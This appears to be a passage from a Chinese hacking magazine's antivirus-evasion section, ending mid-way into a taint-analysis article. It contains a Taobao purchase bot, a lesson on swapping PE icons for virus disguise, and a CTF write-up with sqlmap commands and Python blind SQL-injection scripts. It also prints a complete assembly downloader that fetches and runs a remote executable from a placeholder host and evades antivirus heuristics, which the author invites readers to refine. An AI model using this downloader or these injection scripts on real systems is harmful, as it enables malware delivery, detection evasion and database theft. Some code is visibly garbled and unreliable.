第4步：在 MiaoSha 类中，Socket 获取页面 HTML 的同时，可以返回头信息。如服务器地址或主机名、请求的页面、提交的数据、Cookies 等。拼接的 HTTP 头信息如下：

```csharp
if (_method == "GET")
{
    formatString = "";
    formatString += "{0} {1} HTTP/1.1\r\n";
    formatString += "Host: {2}\r\n";
    formatString += "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.7) Gecko/20091221 Firefox/3.5.7\r\n";
    formatString += "Accept: text/html\r\n";
    formatString += "Keep-Alive: 300\r\n";
    formatString += "Cookies:{3}\r\n";
    formatString += "Connection: keep-alive\r\n\r\n";
}
sendString = string.Format(formatString, _method, _url, server, Cookies);
```

可见，异军突起的“秒杀”市场虽然风光无限，却并未形成统一的规则和模式，各种秒杀网站鱼龙混杂，缺乏甄别力的消费者很容易遭受损失。在出手之前消费者还需擦亮眼睛。下面就是一段典型 post 的数据串代码。

第5步：在 MiaoSha 类中，单击按钮后，淘宝登录需要 post 的数据串代码如下：

```csharp
string sendData = "TPL_username=" + u + "&TPL_password=" + Server.UrlEncode(p) + "&action=...";
string s = GetHtml("login.taobao.com", "/member/login.jhtml", "post", sendData, "");
Session["Cookies"] = GetCookies(s);
// 从返回的源码中提取cookies，抓取登录后的页面
// 需要附上该Cookies
```

第6步：从返回的源代码中提取 Cookies，具体代码如下：

```csharp
private string GetCookies(string s)
{
    // 从返回的源代码中提取cookies
    StringBuilder sbCookies = new StringBuilder();
    string[] arr = s.Split(new string[] { "\r\n" }, StringSplitOptions.RemoveEmptyEntries);
    foreach (string str in arr)
    {
        if (str.StartsWith("Set-Cookie: "))
        {
            int intStart = str.IndexOf(";");
            string strCookie = str.Substring(12, intStart - 11);
            sbCookies.Append(strCookie);
        }
    }
    return sbCookies.ToString();
}
```

第7步：从最后确认购买页面的源代码中提取表单数据的数据。为了在众多的竞争者中胜出，这个功能也是不可少的，即从最后确认购买页面的源代码中提取表单数据的数据。代码如下：

```csharp
private string getPostData(string html)
{
    string postStr = "";
    string pat = "<input.*?name{0,1}={0,1}\"(.*?)\".*?value{0,1}={0,1}\"(.*?)\".*?>";
    Regex regex = new Regex(pat, RegexOptions.Multiline | RegexOptions.IgnoreCase);
    MatchCollection mcollection = regex.Matches(html);
    foreach (Match m in mcollection)
    {
        GroupCollection gcollection = m.Groups;
        if (m.ToString().IndexOf("fma.b.0s") > 0) continue;
        if (m.ToString().IndexOf("fma.b.0c") > 0) continue;
        if (m.ToString().IndexOf("isCheckCode") > 0 && gcollection[2].Value.ToLower() == "true")
        {
            postStr += gcollection[1].Value;
            postStr += "=";
            postStr += Server.UrlEncode(gcollection[2].Value);
            postStr += "&";
        }
    }
    // 从最后确认购买页面的源代码中提取秒杀数据
    ...
}
```

```csharp
...postStr = "" + fma.b.0s=2;
return postStr;
}
```

通过类似的方法获取关键的信息。实现上述代码后，秒杀器效果如图2所示。


图2

在这个界面中，先输入淘宝的账户和密码，然后贴上宝贝的地址，单击“检测并抢购”即可。由此可见，除了自动刷新页面外，参与秒杀活动也是网速和页面加载速度的PK，为此不妨在浏览器中设置禁止显示 Flash 动画和播放声音等，这样在自动刷新时也可以加快网页加载速度。需要注意的是，代码中 Socket 获取页面的时候，有时候会存在获取不全的问题，这就需要进一步研究调整线程 sleep 时间了。

当然，商家如果借虚假“秒杀”活动吸引买家参与，赚取“秒杀点”，消费者则很难发现其中的猫腻。因此，普通人不使用秒杀器基本不会买到商品的。尽管不少站点宣称封杀秒杀器，但是服务器端也不可能很准确地判断到底是人还是秒杀器在做这个事情，也许针对低级的抢拍器是可以的；但是高级点的抢拍器仍然是望洋兴叹。当然了，在这种猫腻的此消彼长中，我们也乐意看到更多的秒杀促销活动，这也是网络“秒杀”这一营销模式长远发展的必然要求。

前置知识：无  
关键词：PE、图标修改

## PE文件图标修改原理详解


文/图  按心, Handt

PE 的全称是 Portable Execute，Windows 系统中常见的 EXE、DLL、OCX、SYS、COM 都是 PE 文件。很多病毒感染的对象都是 PE 文件，在感染的过程中总会涉及图标修改的问题。

### 工具与免杀

CHARACTER CODE VARIATION IN HACKING TOOLS（栏目编排）蝴蝶

有的病毒会将目标文件图标替换成自身的图标，例如熊猫烧香病毒；有的病毒需要给自己装上一个伪装的图标，如泛滥不绝的文件夹病毒；有的病毒在采用捆绑式感染之后，需要用被感染文件的图标来替换自身的图标，防止暴露……所有这些，都是与 PE 文件图标修改相关。那病毒编写者是怎么实现的呢？下面将通过结合手动修改 PE 文件图标的实例来解析这其中的原理。

说到 PE 文件，就不能不说 PE 文件的结构。PEView 是一款可以方便地查看 PE 文件结构的软件。使用 PEView 打开任一个 PE 文件，就以 PEView 自身为例，可以清晰地看到一个 PE 文件的组成和相关重要域的值，如图1所示。左边的框显示了 PEView 的结构，从上到下依次是 DOS 头、DOS 小程序、NT 映像头、节表和各个节。其中，SECTION.rsrc 就是今天要详细讲解的 PE 文件资源节。这里存放着 PE 文件的图标信息。


资源节一般命名为 .rsrc，存放图标、对话框等程序要用到的资源。资源节是树形目录，它有一个主目录，主目录下又有子目录，子目录下可以有子目录或者是数据。通常情况下，资源节会有三层目录（资源类型、资源标识符、资源语言ID），第四层是数据项，如图2所示。图3显示了 PEView 的资源节目录结构。

红色方框标出的第一个结构 IMAGE_RESOURCE_DIRECTORY 是目录的结构。展开来看，NumberOfNamedEntries 是指由名字标识的资源数，NumberOfIdEntries 是指由ID标识的资源数。可以看到，前者为 00H 个，后者为 09H 个，共有9个，因此下面9项就是这9个以ID标识的目录项。

目录项是一个 IMAGE_RESOURCE_DIRECTORY_ENTRY 的结构，这个结构由两个字段构成。对于第一个字段，当其最高位为1（0x80000000）时，这个 DWORD 剩下的31位表明相对于资源开始位置的偏移，偏移内容是一个 IMAGE_RESOURCE_DIR_STRING_U，用其中的字符串来标明这个资源类型；当最高位为0时，表示这个 DWORD 的低 WORD 中的值作为 ID 标明资源类型。

第二个字段中，当最高位为1时，表示还有下一层结构，这个 DWORD 的剩下31位表示一个相对于资源开始位置的偏移，其内容是下一层的 IMAGE_RESOURCE_DIRECTORY 结构；当最高位为0时，表示已经没有下一层结构了，这个 DWORD 的剩下31位对应的是一个 IMAGE_RESOURCE_DATA_ENTRY 结构，用于说明资源的位置。对于资源标识号 ID，当 ID 等于1时表示资源为光标，等于2时表示资源为位图，等于3时表示资源为图标等，这在 winuser.h 文件中有定义。


图4

图3红色方框中的第二项 IMAGE_RESOURCE_DIRECTORY.NameID 和第三项 IMAGE_RESOURCE_DIRECTORY.Language 结构与第一项类同，鉴于相似性和对图标影响的重要性，这里就不多费口舌，而是开始 IMAGE_RESOURCE_DATA_ENTRY 的分析。这个是数据项，分四个字段：第一个字段 RVA of DATA 表示该资源在内存中的相对虚拟地址（RVA），第二个字段 Size 表示资源的大小，第三个字段 Code Page 表示资源所在的代码页号，第四个字段为保留项。

讲完了 PE 资源节的结构，或许读者还不太明白如何修改 PE 文件图标，这是因为我们还不知道程序是怎么定位资源的。我们刚才讲过，在资源节开始的位置，是一个 IMAGE_RESOURCE_DIRECTORY 的结构，后面紧跟着 IMAGE_RESOURCE_DIRECTORY_ENTRY 数组，这个数组的每个元素代表的资源类型都不同。通过每个元素，可以找到第二层另一个 IMAGE_RESOURCE_DIRECTORY，后面紧跟着 IMAGE_RESOURCE_DIRECTORY_ENTRY 数组；这一层的数组的每个元素代表的资源名字不同。然后可以找到第三层的每个 IMAGE_RESOURCE_DIRECTORY，后面紧跟着 IMAGE_RESOURCE_DIRECTORY_ENTRY 数组；这一层的数组的每个元素代表的资源语言不同。最后通过每个 IMAGE_RESOURCE_DIRECTORY_ENTRY 可以找到每个 IMAGE_RESOURCE_DATA_ENTRY。通过每个 IMAGE_RESOURCE_DATA_ENTRY，就可以找到每个真正的资源。而这个查找的顺序正是如图2所显示的那样。

下面，就可以开始动手实战了。通过上面的分析，可以知道 PEView 有两个图标，分别在 SECTION .rsrc 中所看到的 ICON1 和 ICON2。通过 PEView，我们可以知道 ICON1 和 ICON2 在文件的位置，如图5所示。如果换成其他同样大小的图标，我们只需要将这两段二进制用准备好的图标资源替换即可。


图5

如果平日大家留心，就会发现 Windows 系统内有一个 dll，里面存放着系统文件、对话框、菜单所使用的图标。在桌面隐藏的文件 desktop.ini 里可以看到这样一行代码：

```text
IconResource=%SystemRoot%\system32\imageres.dll,-183
```

我们可以在系统根目录下的 System32 文件夹内找到这个文件。我们使用 Stud_PE 来查看 imageres.dll，如图6所示。Stud_PE 也是一个 PE 文件查看软件，能够直观地看到资源节图标的外观，同时标出了该资源的大小及文件起始位置和相对虚拟地址。右击选中项，选择“Save As .bin”可将这个图标以 bin 文件形式保存起来。这样方便我们接下来的修改。我们选择标号为 12 和 13 的 icon，分别保存为 bin 文件，作为原 PEView.exe 的替换图标。现在，只需要找到 PEView.exe 的图标存放位置，用 WinHex 十六进制编辑器进行修改替换即可。使用 Stud_PE 查看 PEView.exe，可以看到其有一大一小两个图标，大图标在文件中的位置为 CA48H，到 CD2FH 结束；小图标的位置则从 CD30H~CE58H。


图6

工具与秘籍〉字符编码〉蝴蝶〉  
CHARACTER CODE VARIATION IN HACKING TOOLS

现在用 WinHex 打开 PEView.exe 和刚才保存的两个替换图标，复制 12 号图标的全部数据，使用 Alt+G 快捷键跳转到 PEView.exe 大图标的开始位置 CA48H，选中直到 CD2FH 的十六进制数据，右击并选择“粘贴”命令，即可将原大图标替换成 12 号图标。同理，可以替换 PEView.exe 小图标。修改完之后单击保存，此时启动 PEView.exe，可以看到替换成功。对比效果如图7、图8所示。

在这里，我们选择的是大小相同的图标进行替换，便于新手入门。如果要替换成不同大小的图标，则需要对 PE 文件整体有很深的了解，因为 PE 文件的修改是“牵一发而动全身”，修改了某一处，会造成总体大小变化，后面的引入节位置偏移，程序运行时找不到所需 dll 和调用 API。此时需要对 NT 映像头、节表的一些字段进行更改。由于这个过程比较复杂，手工进行难度较大，笔者建议读者参照网上一些教程学习利用 Windows 提供的 API 进行编程修改。本文的目的旨在让读者明白修改 PE 文件图标的原理，相信聪明的你看懂本文后，一定能马上学会编程修改。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）


图7


图8

前置知识：Python

关键字：Python，Post，注入

## Python编写 Post 注入脚本剖析

文／图 oyea9le


小生有幸参加了 2010 年 5 月 22 日在成都信息工程学院举行的《四川省第二届信息安全技术大赛》（第一届叫做《网络攻防大赛》），这次大赛的规模很大，汇集了四川省内几乎所有高校的牛人。

大赛采用在线答题和真实环境渗透两种形式，很多题目还是非常有意思。当然最为有意思的是真实渗透环境，分为三个级别，分别需要到三台主机拿铜牌、银牌、金牌文件。

下面以其中的在线提交 Key 的题目中的一个非常有意思的注入为例来说明，如何用 Python 来……

##### 编写 Post 注入脚本

这是一个 PHP 和 MySQL 组合的后台登录型注入，这种注入的一个特点就是只能猜，没有任何出错信息可以使用，而且因为登录框的特点，所以我们也无法通过 union 查询出来。

进入正题，下面是我在自己机子上搭建的模拟环境，和真实情况相关不大。访问 `http://127.0.0.1:81/php/2/Login.php` 页面，当我在 Username 里随便输入“ss”，Password 随便输入时，出现提示“不存在用户名”，如图1所示。


而当我在 Username 里输入 `admin`，Password 里随便输入时，出现提示“用户名或者密码不对”，如图2所示。


经过多次的测试，可以确定，存在 Username 为 admin 的用户。那么接下来，我们看看有没有过滤关键字呢？

在 Username 里输入 `admin'and'1`（相当于 `admin'and'1'='1` 的简化版本），Password 随便输入，结果如图3所示。


说明程序没有过滤 and 关键字，可以直接注入。接着进行抓包，得到提交的参数为 `admin=admin'and'1&pass=ss&action=login`（不包括引号）。

那么，我们先用工具来测试吧，下面在虚拟机环境下 bt4 pre-final 使用 sqlmap 来测试。有关 sqlmap 的介绍网上有很多，请自己搜索一下。我只简单说下，sqlmap 是用 Python 写的开源的注入工具，对 PHP 和 MySQL 组合的效果非常好。在我机子上，sqlmap 的基本信息如图4所示。


那么，是时候测试这个工具的效果了。

### （1）用 Sqlmap 来获取基本信息

```bash
# ./sqlmap.py -u "http://192.168.103.81/PHP/2/login.php" -v 1 --method POST --data "admin=admin'and'1&pass=ss&action=login" --string "Bad username"
```

因为很少看到有人详细讲解 sqlmap 的参数使用，因此，我把用到的参数详细说明如下。

- `-u`：URL，通常用双引号引起来。
- `-v 1`：显示的详细程度，默认为 1，值可选为 1-5。
- `--method POST`：注入方法，支持 GET、POST。
- `--data`：通过 POST 提交的数据，数据一般也用双引号括起等。
- `--string`：注入语句正确时返回的页面中包含的特征字符串。

上面的命令返回图5所示结果。


图5

###### （2）获取当前数据库名和当前用户名

```bash
# ./sqlmap.py -u "http://192.168.1.103.81/PHP/2/login.php" -v 1 --method POST --data "admin=admin' and 1&pass=s&action=login" --string "Bad username" --current-db --current-user
```

参数说明：

- `--current-db`：获取当前使用的数据库。
- `--current-user`：获取当前数据库连接的用户名。

结果如图6所示。


图6

###### （3）获取当前数据库下的所有表名

```bash
# ./sqlmap.py -u "http://192.168.1.103.81/PHP/2/login.php" -v 1 --method POST --data "admin=admin' and 1&pass=s&action=login" --string "Bad username" -D phpformsql --tables
```

参数说明：

- `-D`：使用指定的数据库名，这里为 `phpformsql`。
- `--tables`：枚举出指定数据库里面的表名。

结果如图7所示。


图7

###### （4）获取当前数据库下当前表的所有字段

```bash
# ./sqlmap.py -u "http://192.168.1.103.81/PHP/2/login.php" -v 1 --method POST --data "admin=admin' and 1&pass=s&action=login" --string "Bad username" -D phpformsql -T admin --columns
```

参数说明：

- `-T`：指定枚举的表名，这里为 `admin`。
- `--columns`：枚举出指定表里面的所有列名及其类型和长度。

结果如图8所示。


图8

### （5）获取所有的记录内容

```bash
# ./sqlmap.py -u "http://192.168.1.103.81/PHP/2/login.php" -v 1 --method POST --data "admin=admin' and 1&pass=s&action=login" --string "Bad username" -D phpformsql -T admin --dump
```

参数说明：

- `--dump`：获取所有记录。

结果如图9所示。


图9

获得了所有记录的内容了，我们就可以使用 welcome 登录，获得信息，如图10所示。


本来注入到这儿就已经结束了。可是题目却还没有结束。直接在填 KEY 的地方提交得到的 lpilrmkym，可是却提示答案不对。多次核对，确定这个不是 KEY。于是又找了好久，才注意到网页源码中的一句话：

> <!-- Some of the information is encrypted, but you can crack it. -->

估计 KEY 还经过了某种加密变换。尝试用 admin 登录却提示用户名或密码不对。后经研究发现，Username 为 admin 时，Password 为 aeolr；从 admin 到 aeolr 使用了古典密码中的维吉尼亚加密法。从第 i 位开始，每个字母向后移 i 位。由此推得加密密钥为 abcde，将 lpilrmkym 按此法处理得到 loginhere，填入答案后过关。

题目至此终于完了。我们队获得了此题的积分。也许你会认为上面只是用了 sqlmap 工具来注入，并没有理解真正原理。接下来编写一个 Python 脚本，模拟 sqlmap 工具的功能。

附加一点说明：其实出题人已经考虑到了猜表名和列名的麻烦，所以表名和列名能通过题目的网页源码片段中查看到。我之所以要用 sqlmap 来作一次演示，一来是想让整个过程更完整，二来是为实战作准备，实际环境是不会事先知道表名和列名的。

- 1. 获得当前使用的表名：`get_tbl_name.py`。
- 2. 获得当前表下的所有列名：`get_col_name.py`。
- 3. 获取当前表里面的所有记录：`post_inj.py`。

Python 说明：在 Python 中有很多用于处理 Web 页面的库，而我最常用的是 urllib 和 urllib2 这两个库，很多时候会两个都用到。还要说明的是，Python 里面的单引号、双引号没有任何区别，仅仅是看需要而用。

### 程序1：get_tbl_name.py

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import urllib, urllib2
url = 'http://192.168.103.8/php/2/Login.php'
data = {'admin': "admin' or ''='", 'pass': 'test', 'action': 'login'}

ok_keyword = 'Bad username or password!'

def main():
    for tbl in open('tables.txt'):
        tbl = tbl.strip()
        data['admin'] = "admin' and (SELECT 1 from %s limit 0,1) and '1'='1" % tbl
        login = urllib.urlencode(data)
        ans = urllib2.urlopen(url, login)
        line = ans.read()
        if line.find(ok_keyword) != -1:
            print 'Found! The table is %s!' % tbl
            break

if __name__ == '__main__':
    main()
```

文件 tables.txt 里面存放了常用表名，一行一个。执行效果如图11所示。

工具与免杀 / CHARACTER CODE VARIATION IN HACKING TOOLS


图11

### 程序2：get_col_name.py

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import urllib, urllib2

url = "http://192.168.110.38/php/2/Login.php"
data = {'admin': "admin' and '1'='1",
        'pass': 'test',
        'action': 'login'}

ok_keyword = "Bad username or password"

def main():
    for col in open('columns.txt'):
        col = col.rstrip()
        data['admin'] = "admin' and (SELECT substring(concat(1,%s),1,1) from manager limit 0,1)=1 and '1'='1" % col

        login = urllib.urlencode(data)
        ans = urllib2.urlopen(url, login)
        line = ans.read()

        if line.find(ok_keyword) != -1:
            print "FoundIt, The column is: %s" % col

if __name__ == '__main__':
    main()
```

文件 columns.txt 里面存放了常用字段名，一行一个。

执行效果如图12所示。


图12

### 程序3：post_inj.py

这个程序比前面两个要复杂些，因此对数据结构说明一下。`data = {'admin':"admin' and ... '1'='1", 'pass':'test', 'action':'login'}` 这个结构在 Python 中是一个字典，是一种键—值的对应关系，相当于 Perl 中的 hash。直接用 `data['admin']` 就取得值 `admin'and '1'='1` 串。

`answer = []` 为定义一个空列表，向列表里面添加元素用 `answer.append(elem)`。`begin, end = (32, 126)` 这一行表示同时赋值，结果为 begin=32, end=126。

`urllib.urlencode(data)` 表示将提交的数据进行 URL 编码，空格会变成 `%20`。

下面说明最为重要的几行：

```text
1. login = urllib.urlencode(data)
2. ans = urllib2.urlopen(url, login)
3. line = ans.read()
4. if line.find(ok_keyword) != -1:
5.     return True
```

第1行中将 data 的内容进行相应的 URL 编码，第2行向服务器的 url 提交 Post 类型的参数，第3行获取服务器的返回页面，第4行判断返回页面中是否包含特征字符串，如果包含就返回 True。

这几行也就是三个程序的灵魂所在了，通过不断地向服务器 Post 数据，处理返回页面，最后判断结果。

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import urllib, urllib2

url = "http://192.168.110.38/php/2/Login.php"
data = {'admin': "admin' and '1'='1",
        'pass': 'test',
        'action': 'login'}

ok_keyword = "Bad username or password"

table_name = 'admin'
rec_index = 1
fied_name = 'pass'
fied_len_max = 13

answer = []

def guess_ascii(x, y):
    ...
```

```python
data['admin'] = "admin' and ascii(substring((select %s from %s limit %d,1),%d,1))>%d and '1" % (field_name, table_name, rec_index, x, y-1)
login = urllib.urlencode(data)
ans = urllib2.urlopen(url, login)
line = ans.read()

if line.find(ok_keyword) != -1:
    return True

def main():
    for x in range(1, field_len_max):
        is_find = False
        begin, end = (32,126)
        while begin <= end:
            y = (begin + end) / 2
            data['admin'] = "admin' and ascii(substring((select %s from %s limit %d,1),%d,1))>%d and '1" % (field_name, table_name, rec_index, x, y-1)
            login = urllib.urlencode(data)
            ans = urllib2.urlopen(url, login)
            line = ans.read()
            if line.find(ok_keyword) != -1:
                begin = y + 1
```

```python
if guess_ascii(x, y):
    is_find = True
else:
    end = y - 1

if is_find:
    ch = chr(y)
    answer.append(ch)
    print 'Found --- bit %d, ascii: %d, char: %c' % (x, y, ch)
    break

print 'The answer is: %s' % ''.join(answer)
if __name__ == '__main__':
    main()
```

下面是程序执行结果的截图，如图13所示。


图13

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

前置知识：注册表  
关键词：Windows，驱动

## Windows启动驱动
##### 加载顺序修改


文／图 Shining

首先说明为什么Windows启动时驱动的加载顺序是可以修改的。在Windows内核环境下，第一个提出占有某设备的驱动程序获得该设备的所有权。这个所有权可以共享，也可以独占，由提出占有要求的设备驱动程序决定。如果设备驱动程序对设备提出了独占占有要求，则以后加载的设备驱动程序对该设备尝试提出的任何占有要求都将失败。因此除非是特殊的设备，否则设备驱动程序的加载顺序必须可以由设备驱动程序的作者进行修改。

下面介绍Windows启动驱动加载顺序的机制：在系统启动初始化的时候，驱动程序的加载顺序是遵循一定规律的。决定驱动程序在什么时候被载入系统的信息保存在注册表中，分三批载入：由ntldr载入内存的、由I/O管理器载入内存的、由SCM（Service Control Manager）载入。决定其批次载入顺序的是 `HKLM\SYSTEM\CurrentControlSet\Services\驱动名\Start` 的值。该值为0第一批被载入；该值为1第二批被载入；该值为2第三批被载入。

对于同一批驱动中的驱动，又会按驱动所在组的先后载入。组的先后顺序由 `HKLM\SYSTEM\CurrentControlSet\Control\ServiceGroupOrder\List` 决定。每个驱动的 `HKLM\SYSTEM\CurrentControlSet\Services\驱动名\Group` 决定了驱动所属的组；如果 `ServiceGroupOrder\List` 没有对应的Group，那么就在所有组加载完之后加载。对于同一个组中的驱动，按驱动的Tag先后载入。Tag的先后顺序由 `HKLM\SYSTEM\CurrentControlSet\Control\GroupOrderList\组名` 决定。每个驱动的 `HKLM\SYSTEM\CurrentControlSet\Services\驱动名\Tag` 决定了驱动在组中的Tag，先安装的Tag值小，后安装的Tag值大。

通过以上内容可以看出，如果想要修改驱动的加载顺序可以从三个方面下手：加载的批次、加载所在的Group、所在组的Tag。本文将从这三个方面来介绍可用于修改驱动程序加载顺序的方法。

- 1. 修改所在加载批次

即修改 `HKLM\SYSTEM\CurrentControlSet\Services\驱动名\Start`。本文以beep.sys为例进行试验，在进行相关修改前，beep.sys的注册表信息如图1所示。


使用XueTr查看内核加载顺序，beep为77，将Start项的值改为0后重启，beep启动顺序提前为27。

修改Beep注册表键值Start前：


修改Beep注册表键值Start后：


这种方法修改后的效果十分明显。

- 2. 修改所在Group

ServiceGroupOrder包含按加载顺序排列的组名称列表。`ServiceGroupOrder\List` 列表将被扫描两次：首先加载所有起始值为0的设备驱动程序，然后加载所有起始值为1的设备驱动程序。因此，无论起始值为0的设备驱动程序在 `ServiceGroupOrder\List` 列表中处于什么位置，它都会在所有起始值为1的设备驱动程序之前加载。本文实验机器的ServiceGroupOrder内容如下（数量太多，仅列出部分，其中包括beep所在的组Base）：


关于所在Group的修改可以有三种方法：一种是将Beep所在组Base在 `ServiceGroupOrder\List` 中的顺序提前；一种是添加新的Group；还有就是直接修改Beep注册表项下的Group项。第一种方法将Beep所在的Base放到Port的位置后的结果如下：


第二种方法自己创建一个Group：First，同样将其放到Port位置前，编辑Beep的注册表项，修改其所在组：


结果如下，发现Beep先于正常情况下在beep前面的Null启动：


这两种方法带来的影响很小，对注册表项中的驱动以及Group进行观察，发现Start标号为1的启动项中有很多关联启动，也就是说即使在ServiceGroupOrder排名不前也会提前加载。例如NDIS启动后，会将其相关的驱动一并加载起来，这些驱动也并不在相关的Group中。所以如果想要大幅度改变加载顺序，需要进行更多的测试，发现适合的Group，或者是改变特定驱动的加载顺序。

- 3. 修改所在组的Tag

Tag的值可以帮助决定某个组内设备驱动程序的加载顺序。加载顺序不必按数字顺序排列，反而可以按照由GroupOrderList定义的顺序排列。GroupOrderList中每个组的第一项都是Tag值的数值，接下来是要加载的Tag值的数字顺序。组中的设备驱动程序首先按照其由GroupOrderList所定义的Tag值进行加载。如果设备驱动程序没有Tag值，或者Tag值不在GroupOrderList中，则这些设备驱动程序将在加载具有有效Tag值的设备驱动程序之后进行加载。对于这些设备驱动程序，无法保证加载顺序，只能保证组中的所有设备驱动程序都在下一组加载之前进行加载。有一点要提醒，并非每个Group都出现在GroupOrderList中。如果GroupOrderList中没有某个组，则无法保证组内设备驱动程序的加载顺序。

Beep的Tag值根据之前所示是02，Beep所在的Base组中的Tag值状态如下所示：


这组状态的意思是：开始的一个12（十六进制）是告诉我们当前组一共有0x12个驱动要被启动，启动顺序为0E、01、02……

将Beep的Tag 02移到第一位，如下所示：


修改后的加载顺序为：


经查证，Null正是Base组下标号为0的驱动。也就是说组内的加载顺序调整也是可行的，只是这种方法对于同一组中有多个启动驱动的效果会更好。同时修改Group的方法和修改Tag的方法是可以结合使用的，在此不再赘述。

##### 小结

从上面的例子可以看出，3种方法各有特点：方法一能够大幅度提升加载顺序，不过加载类型是否符合需要修改顺序的驱动还需考量；方法二和三改变的幅度很小，适合微调，不过针对什么驱动进行修改也是有影响的。本文只做了一个简单的实验，修改驱动加载顺序的更多问题还有待研究。另外，因为修改注册表的代码编写起来十分简单，本文就不详述代码了。

可见，要想改变Windows启动时的驱动加载顺序并非是件难事，不过要想将自己的驱动调整到理想的启动位置还是需要多次试验、小心定位的。改变驱动的启动顺序能够带来很多问题，不管是针对自己所写的驱动还是修改系统的驱动均有好有坏，关键还是要看使用者如何使用了。

### 工具与免杀

CHARACTER CODE VARIATION IN HACKING TOOLS

》栏目编辑》蝴蝶》

前置知识：汇编  
关键词：免杀、反启发、下载者

#### 编写反启发式
#### 免杀下载者剖析

文／一个人


随着杀毒软件的升级换代，现在杀软的启发式与主动防御对我们免杀爱好者来说可以算是一个难点，我们今天主要来讨论反启发式。现在比较有代表性的是卡巴斯基和NOD32，尤其卡巴斯基最近升级后以前针对卡巴的一些反调试、反启发的代码都失效了。大家都知道，所谓启发式就是杀软自身模拟真实的系统环境来在内部“执行”一遍程序，以此来判断程序是否带有恶意的行为。那么因为这个环境是杀软模拟出来的，所以肯定不能跟真实的环境完全相同，因此我们就可以利用这一点来做些文章达到反启发的目的，比如以前我用的堆栈反调试、延时反调试等各种方法，虽然现在这些都不管用了，但我们还是可以换一种思路。

我们知道，在真实的系统环境中一个进程都是有它自己的进程ID和它父进程ID的，两个ID都应该是不一样的，而模拟出来的环境就未必能做到这么真实了。说到这里大家应该能想到什么事了，我们可以利用系统中一个特殊的进程——explorer.exe，简单地说它是我们的桌面和任务栏程序，系统运行后它是会自动运行的，但它其实也是有父进程的。因此我们就可以利用下。为了实验效果我们就用最敏感的URLDownloadToFile和WinExec这两个函数的组合来写个下载者，代码是用汇编写的。汇编出来的东西比较小，适合下载者，因为代码并不多，所以全部列出来供大家参考，代码如下：

```asm
include windows.inc
include kernel32.inc
include urlmon.inc
include Stdlib.inc
include user32.inc

includelib kernel32.lib
includelib urlmon.lib
includelib Stdlib.lib
includelib user32.lib

DownLoad proto
CheckFatherProcessID proto

.data
SourceFile db "http://www.xxxxx.com/1.exe",0
DestFile db "C:\1.exe",0
szExplorer db "explorer.exe",0

.data?
dwFather DWORD ?
dwSun DWORD ?
szProc DWORD ?

.code
start:
 invoke CheckFatherProcessID
 .if (!eax)
  invoke ExitProcess,0
 .endif

 invoke DownLoad
 invoke ExitProcess,0

DownLoad proc
 LOCAL hInstance:DWORD
 invoke URLDownloadToFile,NULL,addr SourceFile,addr DestFile,0,NULL
```

```asm
.386
.model flat,stdcall
.option casemap : none
```

```asm
invoke Sleep,2000
invoke WinExec,addr DestFile,SW_SHOW
ret
DownLoad endp

CheckFatherProcessID proc

LOCAL hProc:HANDLE
LOCAL pe:PROCESSENTRY32
mov pe.dwSize,sizeof PROCESSENTRY32

invoke CreateToolhelp32Snapshot,TH32CS_SNAPPROCESS,0
mov hProc,eax
mov eax,INVALID_HANDLE_VALUE
.if eax == hProc
xor eax,eax
ret
.endif

invoke Process32First,hProc,addr pe
.while (eax)
invoke StrCmpI,addr szExplorer,addr pe.szExeFile
.if (eax == 0)
push pe.th32ParentProcessID
pop dwFather
push pe.th32ProcessID
pop dwSun
.endif
invoke Process32Next,hProc,addr pe
.endw
invoke CloseHandle,hProc
push ebx
mov eax,dwFather
mov ebx,dwSun
```

```asm
.if eax == ebx
xor eax,eax
pop ebx
ret
.else
mov eax,1
pop ebx
ret
.endif
ret
CheckFatherProcessID endp

end start
```

以上代码中CheckFatherProcessID子程序就是用来反启发的，获取explorer.exe的自身进程ID和父进程ID做比较，如果相同则说明是杀软虚拟出来的环境中，那么程序直接退出；反之则说明在真实的环境中运行。经测试可以过掉包括卡巴斯基在内的大多数杀软的启发式和普通查杀，但不能过掉NOD32，因为使用了URLDownloadToFile这个函数，PE文件的输入表里只要有这个函数，或是资源段里有这个字符串，NOD32都会报未知PE病毒。可见NOD32对这个函数盯得还是挺紧的，不过我这里只是为了演示，大家完全可以自己替换掉这个函数，这样写出来的下载者就比较完美了。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

前置知识：无  
关键词：动态污点，TEMU

#### 动态污点分析
## 系统TEMU

文／图 CrazyRabbit


近两年，计算机安全界中最流行的技术之一就是污点跟踪分析技术（Taint Analysis）。污点（Taint）的概念首先由脚本语言Perl引入。

Perl语言的Taint模式（Taint Mode）通过限制脚本对于数据的使用来帮助程序员编写更安全的脚本。安全专家已经将该思想扩展到整个软件安全全领域中，从而发展成为一种新的软件安全技术——污点跟踪分析技术。污点分析技术可以分为静态污点分析和动态污点分析。静态污点分析方法是在不执行软件的前提下对软件进行分析并建立逻辑模型。分析对象既可以是源代码，也可以是二进制代码。静态污点分析技术被用于寻找软件Bug和安全漏洞，包括Web程序的输入错误、用户/内核指针错误、格式字符串漏洞以及授权Hook的放置错误。静态分析的最大优点是所有潜在的安全漏洞可以在不运行软件的情况下被静态找到，而其缺点是准确性低。静态污点分析技术更多偏向于逻辑证明和软件测试领域，因此本文将不讨论该技术。

动态污点跟踪分析技术实质上是一种数据流分析技术。数据流分析技术通过分析软件执行过程中参数的取值规律并建立正常的参数模型来检测攻击过程导致的异常。早期的方法在分析软件系统调用参数时是分别获得每个参数的取值情况，而最近出现的动态污点跟踪分析技术是分析参数间的关联关系。在动态污点跟踪分析技术中，数据被分为不可信（被污染）和可信两种。不可信数据是来源于可疑外部输入的数据，如HTTP服务器中客户端的HTTP请求数据。由于几乎所有安全问题（如缓冲溢出、SQL注入等）都是由攻击者输入的恶意数据引起，因此通过分析外部可疑数据在软件运行过程中的传播链可以发现潜在的异常。本文将主要讨论这种污点分析技术，并详细介绍一个很有名的实现平台——TEMU。

##### 动态污点分析原理

